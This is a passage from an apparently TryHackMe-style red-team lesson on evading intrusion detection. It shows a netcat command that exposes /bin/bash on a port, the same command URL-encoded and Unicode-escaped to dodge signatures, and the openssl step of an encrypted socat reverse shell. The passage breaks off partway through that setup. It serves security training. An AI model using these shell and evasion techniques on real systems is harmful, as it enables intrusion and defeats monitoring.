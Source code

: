 Pentester Terminal

```shell-session
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

`ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.

**Use Escaped Unicode**

Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string. For example, you can use [CyberChef](https://icyberchef.com/) to select and configure the Escape Unicode Characters recipe as shown in the image below.

1. Search for _Escape Unicode Characters_
2. Drag it to the _Recipe_ column
3. Ensure you a check-mark near _Encode all chars_ with a prefix of `\u`
4. Ensure you have a check-mark near _Uppercase hex_ with a padding of 4

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f330a782dc93a8b227fc93231aa1649a.png)

If you use the format `\uXXXX`, then `ncat -lvnp 1234 -e /bin/bash` becomes `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.

#### Encrypt the Communication Channel

Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

**Firstly**, On the AttackBox or any Linux system, we can create the key using `openssl`.

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

The arguments in the above command are:

* `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
* `-x509` specifies that we want an X.509 certificate
* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as `-newkey rsa:2048`.)
* `-days 365` shows that the validity of our certificate will be one year
* `-subj` sets data, such as organization and country, via the command-line.
* `-nodes` simplifies our command and does not encrypt the private key
* `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
* `-out CERTIFICATE` specifies the filename to which we want to write the certificate request
